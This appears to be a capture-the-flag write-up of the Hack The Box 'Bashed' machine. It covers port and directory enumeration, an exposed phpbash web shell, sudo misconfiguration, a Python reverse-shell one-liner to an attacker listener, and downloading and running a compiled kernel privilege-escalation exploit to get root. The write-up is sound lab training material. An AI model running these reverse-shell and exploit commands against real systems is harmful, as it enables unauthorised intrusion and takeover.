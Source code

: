 # htb-bashed
This is my [Hack the box](https://www.hackthebox.eu/)'s Bashed machine write-up.

## Machine
OS: Linux

IP: 10.10.10.68

Difficulty: Easy

## Initial enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN bashed.nmap $BASHED`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:/home/kali# nmap -sC -sV -Pn -oN bashed.nmap $BASHED
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 20:01 EDT
Nmap scan report for 10.10.10.68 (10.10.10.68)
Host is up (0.23s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

There's a web server running on port 80. Get paths using gobuster:
```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --url http://10.10.10.68 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/26 20:26:58 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/08/26 20:30:57 Finished
===============================================================
```

The page on port 80 advertises a web shell: [phpbash](https://github.com/Arrexel/phpbash). It mentions the tool was built on this server which makes us think it could be accessible. `/dev/phpbash.php` is its location.

Get some situational awareness information using the shell:
```
www-data@bashed:/var/www/html/dev# uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

www-data@bashed:/var/www/html/dev# whoami
www-data

www-data@bashed:/var/www/html/dev# env
OLDPWD=/var/www/html/dev
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html/dev


www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

It is possible already to grab the user flag from `home/arrexel`: `cat /home/arrexel/user.txt`

Check that Python is installed by executing `python --version`. Let's trigger a reverse shell using it.

First, let's set up the listener on the attacker machine:
```bash
sudo nc -lvp 8888 
```

Then, with a little help from pentestmonkey's [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), hit the listener from the phpbash web interface (replace IP and port by the listener's):
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

It pops a shell on the listener!

The kernel version can be obtained by executing `uname -a` is 4.4.0-62-generic.

Let's check on searchsploit if that version of Linux kernel is vulnerable:
```
$ searchsploit 4.4.0
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Comodo Backup 4.4.0.0 - Null Pointer Dereference Privilege Escalation              | windows/local/35905.c
eTouch SamePage 4.4.0.0.239 - Multiple Vulnerabilities                             | php/webapps/36089.txt
Foxit MobilePDF 4.4.0 iOS - Multiple Vulnerabilities                               | ios/webapps/35775.txt
Helpdesk Pilot Knowledge Base 4.4.0 - SQL Injection                                | php/webapps/10788.txt
Linux 4.4.0 < 4.4.0-53 - 'AF_PACKET chocobo_root' Local Privilege Escalation (Meta | linux/local/44696.rb
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privil | linux_x86-64/local/40871.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free (PoC)                               | linux/dos/41457.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation                | linux/local/41458.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter target_offset Out-of-Bounds P | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Co | linux/local/47170.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation             | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privi | linux/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escala | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Lo | linux/local/47169.c
Photo Manager Pro 4.4.0 iOS - Code Execution                                       | ios/webapps/36798.txt
Photo Manager Pro 4.4.0 iOS - Local File Inclusion                                 | ios/webapps/36796.txt
PHP 4.4.0 - 'mysql_connect function' Local Buffer Overflow                         | windows/local/1406.php
Vembu Storegrid Web Interface 4.4.0 - Multiple Vulnerabilities                     | php/webapps/46549.txt
----------------------------------------------------------------------------------- ---------------------------------
```

For this example this one will be used: `Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation`. Compile it on Kali (attacker) and expose it through an HTTP server for it to be available to the victim:
```
$ locate linux/local/44298.c
/usr/share/exploitdb/exploits/linux/local/44298.c
$ gcc -o privesc /usr/share/exploitdb/exploits/linux/local/44298.c
$ ls
privesc
$ python -m SimpleHTTPServer
```

And then, from the shell on the victim, get it and execute it:
```
$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager /bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
scriptmanager@bashed:/var/www/html/uploads$ cd  
cd
scriptmanager@bashed:~$ pwd
pwd
/home/scriptmanager
scriptmanager@bashed:~$ wget 10.10.14.13:8000/privesc
wget 10.10.14.13:8000/privesc
--2020-09-04 21:52:11--  http://10.10.14.13:8000/privesc
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17880 (17K) [application/octet-stream]
Saving to: 'privesc'

privesc             100%[===================>]  17.46K  28.8KB/s    in 0.6s    

2020-09-04 21:52:13 (28.8 KB/s) - 'privesc' saved [17880/17880]

scriptmanager@bashed:~$ chmod +x privesc
chmod +x privesc
scriptmanager@bashed:~$ ./privesc
./privesc
task_struct = ffff88003ab93800
uidptr = ffff880038719204
spawning root shell
root@bashed:~# whoami
whoami
root
root@bashed:~# 
```

Note the execution of the exploit was done as `scriptmanager` and not as `www-data` (leveraging the fact that `www-data` has permissions to execute anything as `scriptmanager`). This was simply because the same process didn't work when executing it as `www-data`.

